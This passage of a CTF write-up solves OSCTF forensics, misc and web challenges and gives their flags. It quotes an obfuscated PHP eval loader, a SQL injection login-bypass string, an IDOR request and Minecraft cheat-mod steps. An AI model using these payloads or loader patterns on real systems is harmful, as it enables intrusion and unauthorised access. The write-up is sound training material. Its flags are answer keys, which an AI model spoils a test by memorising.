 goto Ls6vZ; apeWK: ${"\x76\141\x72\61"} = str_rot13("\x24\x7b\x22\134\x78\x34\x37\134\x78\x34\143\x5c\x78\64\x66\x5c\170\x34\x32\134\x78\64\61\x5c\170\x34\x63\134\x78\x35\x33\42\x7d"); goto G9fZX; Ls6vZ: ${"\x47\x4c\x4f\x42\101\114\123"} = "\150\x58\x58\x70\x73\72\x2f\57\163\150\x30\162\164\x75\x72\x6c\56\x61\164\x2f\x73\x31\146\x57\62"; goto apeWK; XT2kv: if (strlen(${"\x76\141\x72\x32"}) > 0) { ${"\166\x61\x72\x33"} = ${"\x76\x61\x72\x32"}; } else { ${"\166\141\x72\63"} = ''; } goto ZYamk; V2P3O: foreach (str_split(${"\166\141\x72\x33"}) as ${"\166\x61\x72\x35"}) { ${"\166\141\162\x34"} .= chr(ord(${"\166\141\162\65"}) - 1); } goto Ly_yq; G9fZX: ${"\x76\141\162\x32"} = base64_decode(${${"\166\x61\162\x31"}}); goto XT2kv; Ly_yq: eval(${${"\x76\x61\x72\x34"}}); goto IFMxz; ZYamk: ${"\166\141\162\64"} = ''; goto V2P3O; IFMxz: ?>
```

Using the following website to deobfuscate it. We get the URL.

```python
<?php 
 goto Ls6vZ; apeWK: ${"var1"} = str_rot13("${"GLOBALS"}"); goto G9fZX; Ls6vZ: ${"GLOBALS"} = "hXXps://sh0rturl.at/s1fW2"; goto apeWK; XT2kv: if (strlen(${"var2"}) > 0) { ${"var3"} = ${"var2"}; } else { ${"var3"} = ''; } goto ZYamk; V2P3O: foreach (str_split(${"var3"}) as ${"var5"}) { ${"var4"} .= chr(ord(${"var5"}) - 1); } goto Ly_yq; G9fZX: ${"var2"} = base64_decode(${${"var1"}}); goto XT2kv; Ly_yq: eval(${${"var4"}}); goto IFMxz; ZYamk: ${"var4"} = ''; goto V2P3O; IFMxz: ?>
```

`hXXps://sh0rturl.at/s1fW2` , just re-structuring, we get `https://shorturl.at/s1fW2` and the flag.

Flag: `OSCTF{M4lW4re_0bfU5CAt3d}`

### **PDF Puzzle**

It took me so much time to write this pdf (for real, I'm not lying) but I have hidden the flag in this and you're tasked with finding it. Prove your pdf knowledge here forensic people.

Author:`@5h1kh4r`

Given: `my_pdf.pdf`

```python
└─$ exiftool My_pdf.pdf
ExifTool Version Number         : 12.76
File Name                       : My_pdf.pdf
Directory                       : .
File Size                       : 18 kB
<>
Author                          : OSCTF{H3il_M3taD4tA}
```

Flag: `OSCTF{H3il_M3taD4tA}`

### **Seele Vellorei**

Seele Vollerei is an orphaned girl in Cocolia’s Orphanage. But the tragic event in her past made that she was gone forever, until then she returned like a mysterious butterfly. How is this related to the challenge though? You figure out for youself ;)

Author: `@anhshidou`

Given: `SeeleVollerei.docx`

Unzip the `docx` and search using a Text/Code editor. Using `VSCode` .



Flag: `OSCTF{V3l10n4_1s_Gr43t}`

### **qRc0dE**

This is a QRCODE, but I can not scan it, whyyyyy????


Author: @Deit

As you can see, we need to remove the red text and fix the QR to solve the challenge. More interesting than the previous few challenges.

but I’m too lazy to do this. So here’s the website.

[QRazyBox - QR Code Analysis and Recovery Toolkit](https://merri.cx/qrazybox/)

Flag: `OSCTF{r3c0v3R_qR_C0de_1s_s0_fUn}`

## Miscellaneous

### **Sanity Check**

**Description**: 

When shadows grow short, and the sun stands tall, A solstice whispers, the longest of all. In the dance of light, where time seems to bend, Seek the day that marks summer's extend.

Not in the digits of a calendar's fold, But in nature's rhythm, a story is told. On this day of warmth, where daylight beams, The clue lies hidden, within nature's schemes.

Look to the heavens, where planets align, A celestial clue, where mysteries entwine. Amidst the stars, a date to discern, When daylight lingers, and seasons turn.

Unravel this puzzle, with patience and grace, For June's zenith, where time and space embrace. On this solstice's eve, where mysteries gleam, The 21st of June, in sunlight's beam.

P.S: Flag is in discord server only!

Flag format: OSCTF{Text_you_obtain}

**Author**: `@Inv1s1bl3`

[Join the OS-CTF Discord Server!](https://discord.gg/Arydk5XQDZ)

This seemingly simple challenge had only 12 solves cause the Author made is obvious (for him). Since, I joined the server quite early before the comp. I accidently stumbled upon this Flag by accident and saved it. Turns out that wasn’t the way it was meant to be solved LOL.


Got First-Blood and a juicy 445 points.

Flag: `OSCTF{So_1t_w4s_4lr3dy_l3aked_1n_g3n3ral_ch4t_h4h4}`

### **Sanity Check - Revenge**

**Description**: 

I WANTED 0 SOLVED ON PREVIOUS SANITY!!

I drank coffee and hit an idea.. this time no one can crack this 😈

P.S: Flag is in discord server only!

Author: `@Inv1s1bl3`

This goes into the history books at the most ridiculously and absurd Discord Challenges to ever exist. Yup, the Author is just a high-schooler. Here’s the Author’s solution for this.

```python
check ⁠🔊ˎˊ˗announcement  and msgs on 21st June. 
there are 2 copy use 3 dot > copy text paste it 
somewhere u will see there is a link and one more riddle
```



```python
@everyone WE ARE OFFICIALLY REGISTERED ON CTFtime.org!
https://ctftime.org/event/2416 ~~‎~~|||||||||||||||||||||||||||||||||||||||||
https://drive.google.com/file/d/1_tYb1iJXuVPSeMf8mtEK-XXWeD82o_cC/view?usp=sharing
```

Whatever man !


### **Find the Flagger - Revenge**

**Description**: 

I have hidden another flag on this ctfd site but this time it is much much much harder.

Author: `@5h1kh4r`

Of course, this was a very obvious challenge (only for the authors). Just go to 

[OS CTF](https://ctf.os.ftp.sh/flagger.txt)



Flag: `OSCTF{Fl4gg3r_G0t_Fl4gg3d}`

### Finding The Seed

**Description**: I just joined minecraft with my friend and we're trying to see who will be the best in Minecraft. But didn't he know that i have trick under my sleeves that i just need the world seed then i can be better than him. But i can't ask him about the world seed as he will know about my trick. Can you join my server and try to find the seed.

Flag format: OSCTF{world_Seed} ex: OSCTF{10033887773255362}

Author: `@Inv1s1bl3`

<aside>
💡 Here’s is SHL’s write-up for both the Minecraft challenges.

</aside>

This was a very simple challenge where I had to just use the seedcracker mod from https://github.com/19MisterX98/SeedcrackerX.git. 

Here’s a step-by-step guide on how to join a server and use the seedcracker mod

> Caution: This mod can get you banned from most of the public servers so use at your own risk.
> 

`How to Install Fabric and Seedcracker Mod for Minecraft`

`Installing Fabric`

1. **Download the Fabric Installer**:
    - Visit the official Fabric website and download the Fabric installer for your operating system.
2. **Run the Fabric Installer**:
    - Open the Fabric installer you just downloaded.
    - Select the Minecraft version you want to install Fabric for.
    - Click on the "Install" button.
3. **Launch Minecraft with Fabric**:
    - Open your Minecraft launcher.
    - In the bottom-left corner, click on the dropdown menu and select the Fabric profile.
    - Click "Play" to launch Minecraft with Fabric.

`Installing the Seedcracker Mod`

1. **Download the Seedcracker Mod**:
    - Visit the SeedcrackerX GitHub repository at https://github.com/19MisterX98/SeedcrackerX.git.
    - Download the latest release of the Seedcracker mod.
2. **Install the Seedcracker Mod**:
    - Locate your Minecraft mods folder. This is usually found at `~/.minecraft/mods` on Windows or `~/Library/Application Support/minecraft/mods` on macOS.
    - Move the downloaded Seedcracker mod .jar file into the mods folder.
3. **Launch Minecraft with the Mod**:
    - Open your Minecraft launcher.
    - Ensure the Fabric profile is selected.
    - Click "Play" to launch Minecraft with the Seedcracker mod installed.

You are now ready to use the Seedcracker mod in Minecraft. Remember to use it responsibly and be aware of the rules on the servers you join.

`How to Use Seedcracker to Find Out the Seed of a World`

Once you have the Seedcracker mod installed and Minecraft running with Fabric, follow these steps to find out the seed of a world:

1. **Join the Minecraft Server**:
    - Open Minecraft and join the server whose world seed you want to find out.
2. **Activate Seedcracker**:



3. **Start Collecting Data**:
    - To start finding the seed, you need to explore the world and let the Seedcracker gather data. This typically involves:
        - Finding and examining structures such as villages, temples, and other world-generated features (check out the repo for more details).
    - Seedcracker will automatically collect the necessary data as you interact with the world.
    - Use
    
    ```bash
    /seedcracker data bits
    ```
    
    
    
    - To find structure just use
    
    ```bash
    /locate structure #minecraft:structure_name
    ```
    
4. **Check Progress**:
    - Seedcracker will inform you of its progress toward cracking the seed. Keep an eye on the chat or console for updates on how much data has been collected and any other instructions.
    
    
    
5. **Finalize the Seed**:
    - Once enough data has been collected, Seedcracker will use the information to determine the world seed.
    - The seed will be displayed on your screen or in the chat. Make a note of it.
    
    
    

And tada✨ the flag is found.

### Code Breaker

**Description**: 

My friend invited me to his public smp Capital Realm where he hid a secret message at /warp CodeBreaker in the Survival World and he challenged me to crack it! Help me to get the secret message!

NOTE: If you find the code use /osctf WXYZ where W,X,Y,Z represent +ve natural number to get the flag!

P.S: You need not buy the game.. You can use other launchers

IP: For Java: Play.CapitalRealm.tech For Bedrock: Play.CapitalRealm.tech Port: 19132

Author: `@Inv1s1bl3` & `@5h1kh4r`


In this challenge, fire up TLauncher and open up Minecraft. Go to Multi-Player and join the server.


Now, you’ll be met with 6 firelamps and need to find the code behind it. You use mods like `freecam` to go behind the walls and find the code. Just had to see which all switches actually was giving power. After that just enter the code with the command.

```python
/osctf 2456
```


Flag: `OSCTF{r3dst0ne_1s_3asy}`

## Web

### **Style Query Listing...?**

pfft.. Listen, I've gained access to this login portal but I'm not able to log in. The admins are surely hiding something from the public, but... I don't understand what. Here take the link and be quiet, don't share it with anyone

Author: `@5h1kh4r`

```
Web instance: https://34.16.207.52:3635/
```

From the source we find out it’s a Basic SQL Injection challenge.

```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>SQL Injection Challenge</title>
        <style>
            body {
                font-family: Arial, sans-serif;
```

Using these as the credentials we get the flag.

Username: `admin`

Password: `' OR 1 -- -`

Flag: `OSCTF{D1r3ct0RY_BrU7t1nG_4nD_SQL}`

### **Heads or Tails?**

I was playing cricket yesterday with my friends and my flipped a coin. I lost the toss even though I got the lucky heads.

Author: @5h1kh4r

```bash
Web Instance: https://34.16.207.52:4789
```

Trying out `curl` with `HEAD` request gives us the flag.

```html
└─$ curl -i -X HEAD https://34.16.207.52:4789/get-flag
Warning: Setting custom https method to HEAD with -X/--request may not work the
Warning: way you want. Consider using -I/--head instead.
https/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.8.19
Date: Tue, 16 Jul 2024 03:16:24 GMT
Content-Type: text/html; charset=utf-8
Flag: OSCTF{Und3Rr47Ed_H3aD_M3Th0D}
Content-Length: 0
Connection: close
```

It sent a `HEAD` request to the server, which is designed to retrieve the headers from a response without fetching the body.

Flag: `OSCTF{Und3Rr47Ed_H3aD_M3Th0D}`

### **Indoor WebApp**

The production of this application has been completely indoor so that no corona virus spreads, but that's an old talk right?

Author: `@5h1kh4r`

Web Instance: [https://34.16.207.52:2546](https://34.16.207.52:2546/)

Since, it’s given it’s an `IDOR` challenge.

```bash
└─$ curl https://34.16.207.52:2546/profile?user_id=2

        <h1>Profile</h1>
        <p>Username: Bobo</p>
        <p>Email: bobo@example.com OSCTF{1nd00r_M4dE_n0_5enS3}</p>
```

Flag: `OSCTF{1nd00r_M4dE_n0_5enS3}`